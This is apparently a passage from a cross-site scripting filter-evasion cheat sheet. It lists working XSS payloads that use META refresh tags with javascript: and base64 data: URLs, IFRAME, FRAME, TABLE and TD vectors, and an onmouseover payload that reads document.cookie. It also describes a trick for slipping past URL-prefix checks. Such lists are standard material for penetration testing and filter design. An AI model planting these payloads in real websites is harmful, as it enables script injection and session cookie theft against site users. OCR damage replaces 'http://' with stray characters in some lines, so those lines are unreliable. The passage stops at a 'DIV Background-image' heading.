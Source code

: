 ```js
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

META using Data
Directive URL scheme. This is nice because it also doesn’t have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS calculator below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```js
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

META with Additional URL Parameter
If the target website attempts to see if the URL contains <http网址>; at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```js
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http网址;URL=javascript:alert('XSS');">
```

IFRAME
If iframes are allowed there are a lot of other XSS problems as well:

```js
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

IFRAME Event Based
IFrames and most other elements can use event based mayhem like the following… (Submitted by: David Cross)

```js
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

FRAME
Frames have the same sorts of XSS problems as iframes

```js
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

TABLE

```js
<TABLE BACKGROUND="javascript:alert('XSS')">
```

TD
Just like above, TD’s are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```js
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

DIV
DIV Background-image
